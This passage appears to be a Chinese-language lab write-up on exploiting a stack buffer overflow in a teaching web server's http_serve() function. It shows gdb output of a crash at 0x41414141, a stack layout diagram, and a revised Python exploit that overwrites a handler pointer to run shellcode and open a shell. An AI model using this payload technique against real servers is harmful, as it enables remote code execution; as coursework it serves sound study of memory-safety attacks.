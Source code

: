 执行该 exploit 发现程序竟直接 crash 退出，并未如期望地执行 shellcoade。gdb 调试发现 `http_serve()` 返回时 eip 并不是我们期望的地址， 而是 41414141（‘AAAA’ ）—— 我们的 buf 垃圾填充。

```console
(gdb) nexti  //使用 next、nexti、stepi 这些有用的 gdb 命令

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

这说明在返回值之前另外有某处存程序指针。

结合代码和 gdb 观察，原来栈上 ret addr 之前（低地址）还有个 handler 函数跳转指针，大致画出溢出发生前栈内存排布如下：

```
      +---------------------+
      |                     |
      |   return addr 4     |
      |                     |
      +---------------------+
      |                     |
      |    saved ebp 4      |
ebp   |                     |
----> +---------------------+
      |                     |
      |     foo,bar  8      |
      |                     |
      +---------------------+
      |                     |
      |     handler  4      |
      |                     |
      +---------------------+
      |      buf[1024]      |
      |         .           |
      |         .           |
      |         .           |
      |         .           |
      |  "/home/httpd/lab"  |--> buf[0~14]
      +---------------------+
      |                     |
esp   |                     |
----> |                     |
```

显然，为了跳开这个「陷阱」，溢出目标应该改为这个 handler 指针。

修改后的 exploit 如下：

```python
    path = "/" + 'A'*1008 + struct.pack('<L', stack_saved_ebp + 8) + 'AAAA'*2 + 'SEBP' + 'SRET' + shellcode
    req =   "GET " + path + " HTTP/1.0\r\n" + \
                "\r\n"
```

运行此 exploit 可以在服务器端响应看到 `$`，即打开了一个 shell。
